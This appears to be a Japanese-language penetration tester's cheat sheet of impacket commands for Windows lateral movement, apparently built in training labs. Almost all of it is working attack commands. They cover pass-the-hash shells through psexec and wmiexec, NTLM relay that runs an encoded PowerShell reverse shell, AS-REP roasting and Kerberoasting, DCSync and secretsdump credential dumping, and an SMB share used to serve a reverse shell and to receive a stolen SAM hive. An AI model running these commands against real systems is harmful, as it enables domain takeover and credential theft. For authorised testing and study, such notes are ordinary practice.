 # impacket
psexecやsmbserverやwmiexec等、WindowsにおけるLateral Movementにつかえるものがいろいろ入っている。

## PsExec
impacketの中に入っている機能の一部。  
セッションの確立に使える。  
Lateral Movementに利用するには、以下の3つの条件を満たしている必要がある。  
1. psexecsvc.exeをC:\Windowsディレクトリに書き込める状態であること(リモートアクセス後に書き込み権限が必要ということ)
2. リモートホスト上にサービスを作成して起動できる状態であること
3. 要求されたプログラム/コマンドをpsexecsvc.exeの子プロセスとして実行できること
4. ターゲットホスト上のADMIN$共有フォルダに、ランダムに名前をつけたバイナリをペイロードとしてアップロードする。
5. 更にアップロード後、RPCを介してWindows Service Control Managerという名前でサービス登録を行う。
6. ADMIN$への書き込み権限が必要なため、ターゲットホストのローカル管理者権限を持つアカウントの認証情報を入力する必要がある。

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

4.2 ドメインユーザのパスワードが分からないけどハッシュ値はわかるとき。
```
# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
ここのユーザは、ドメイン上でDCSyncの権限をそもそも持っている必要があり、そのユーザの権限を借りてkaliからDCSyncの要求をしている点に注意。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
もしくは
```
impacket-secretsdump -just-dc htb.local/hoge:password123@10.10.10.161
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

9. SMBサーバとして起動する。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```  
以下をKaliで行うと、ターゲットWindows上で//<kali_IP>/evil/hoge.exeとしてreverseshellを実行できる。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support evil $PWD
```

Kali側でサーバとして待ち受けてからWindwos側で以下みたいなコマンドをやるとファイルをコピーして送信できる。
```
copy C:\Users\THMBackup\sam.hive \\10.13.58.5\public\ \\10.13.58.5\public\ 
```

10. SAMやSYSTEMからダンプしたハッシュをもとに、kaliからDC等のマシンへpsexecでシェルをとれる。ターゲットがwin-rmを許可していないときとかはこっちで接続。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.127.140
```

11. windows環境でSQLとかを見つけて認証情報も持っていれば、mssqlclientでアクセスできる。  
evil-winrmやsmbでアクセスできないときに便利。
```
impacket-mssqlclient oscp.exam/sql_svc@10.10.157.148 -windows-auth
```

12. evilという共有フォルダ名でカレントディレクトリをシェアする
```
sudo impacket-smbserver evil ./
```